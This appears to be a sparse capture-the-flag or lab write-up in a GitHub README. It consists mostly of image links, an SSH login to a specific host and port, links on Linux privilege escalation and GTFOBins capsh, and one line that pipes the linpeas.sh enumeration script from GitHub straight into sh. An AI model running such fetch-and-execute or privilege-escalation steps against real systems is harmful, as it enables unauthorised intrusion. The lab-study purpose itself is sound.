 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ea8bb2a1-d219-4b52-b5ff-60d736ae896e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ed8b855a-da50-4f56-8005-74704b1b071d)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/36ebaec9-deac-4c19-8010-deed024f20bb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1d30f8f4-e596-4b7f-8257-e1e6047b618c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3698e806-8978-493e-a674-35d1f21eebfc)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f133e0c8-4cb4-44fa-b5c5-f698d0a7621f)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd607e03-a3f1-45a9-b95c-8b01fb1302c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5a2f3f9f-7211-435c-9967-043591b1bdac)

```
ssh Don@62.173.140.174 -p 28322
```
https://delinea.com/blog/linux-privilege-escalation

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

https://gtfobins.github.io/gtfobins/capsh/
